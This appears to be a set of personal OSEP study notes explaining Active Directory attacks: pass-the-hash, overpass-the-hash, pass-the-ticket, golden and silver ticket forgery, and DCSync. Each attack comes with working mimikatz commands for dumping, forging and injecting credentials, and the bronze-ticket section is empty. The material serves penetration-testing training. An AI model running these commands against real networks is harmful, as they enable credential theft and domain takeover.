 (Although the techniques explained here aren't teached in the OSEP, I found them pretty useful during my OSEP exam & labs, learning and researching
about them also helped me improve my knowlegde of Active Directory which is always useful)

**PASS THE HASH:**

The pass-the-hash techinque allows an attacker to authenticate to remote systems using the user NTLM hash(the static part, also known as NT hash). 
Note that the pass-the-hash technique only applies to Windows/NTLM authentication and not to Kerberos authentication.

There are lots of tools that support pass-the-hash. For example all the impacket suite supports it, xfreerdp also does, mimikatz also does, and the
list keeps going on...

Passing the hash from bare bones *nix systems using [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit/tree/master).

**OVERPASS THE HASH:**

Overpass the hash, presented in the [blackhat](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf). This technique allows an attacker to get a TGT using only the NTLM hash of the user. 

We can for example use overpass the hash through [mimikatz](https://github.com/gentilkiwi/mimikatz):

```
mimikatz # sekurlsa::pth /user:user1 /domain:contoso.com /ntlm:<ntlm_hash> /run:PowerShell.exe
```

Once we have the new powershell session, we can authenticate to any AD resource to obtain a TGT, here's an example:

```
PS C:\> klist  -> no TGT for the user1

PS C:\> net use \\dc01.contoso.com

PS C:\> klist -> TGT for the user1
```

**PASS THE TICKET:**

The pass-the-ticket technique abuses the TGS, which can be exported and injected somewhere else.

```
Listing tickets with mimikatz:

mimikatz # kerberos::list


Exporting all tickets(TGTs and TGSs) with mimikatz:

mimikatz # sekurlsa::tickets /export   


Injecting some ticket into memory with mimikatz:

mimikatz # kerberos::ptt 'C:\ticket.kirbi'
```

**GOLDEN TICKETS:**

With golden tickets, we can create TGTs for any domain resource that we want, and stating the groups we want. However to execute this attack we need the "krbtgt" domain account NTLM hash/password. Note that this attack is mostly used when you are already Domain Admin rather than trying to become one.

Now, armed with the "krbtgt" NTLM hash, we can proceed and craft our golden ticket with mimikatz:

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:<our_sid_without_the_rid_part> /krbtgt:<ntlm_hash_of_krbtgt> /ptt
(mimikatz by default will assing us the RID of 500, however we can set a custom one via the "/id" parameter)

mimikatz # misc::cmd -> launcing a new cmd with our new TGT
```

**SILVER TICKETS:**

This technique consists of crafting a TGS with the password hash of the SPN. The interesting part about this TGS, is that we can modify our permissions(such as user id or group id) stating that we are local administrator/domain admin/etc on the server where the SPN we have compromised is running its service. 

In our example, our compromimsed SPN will we "svc_mssql", its NTLM password hash will be this "1BF1DE6AEDB12AE1E548210EDBF3511E", its FQDN will be "MSSQL/server.contoso.com" and the SID of the trike user will be "S-1-5-21-2602875597-2787548311-2599479668-1204"

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:S-1-5-21-2602875597-2787548311-2599479668 /target:server.contoso.com /service:MSSQL /rc4:1BF1DE6AEDB12AE1E548210EDBF3511E /ptt
```
(note that in the sid parameter we didn't specify the RID of the trike user, since mimikatz will automatically set our RID to 500 which equals to both local administrator and domain admin)

**BRONZE TICKETS:**


**DOMAIN CONTROLLER SYNCHRONIZATION:**

This is an alternative way to get any domain user hash without dumping the entire NTDS.dit database. For this reason DcSync is way stealthier. 

This attack works because the domain controller recieving the request doesn't verify that the request came from a know domain controller, only that the SID has the appropiate permissions to do so. For this reason, if a domain admin sends a request to a domain controller, this will likely succeed. 

We can perform this attack with mimikatz:

```
mimikatz # lsadump::dcsync /user:Administrator

mimikatz # lsadump::dcsync /user:krbtgt
```
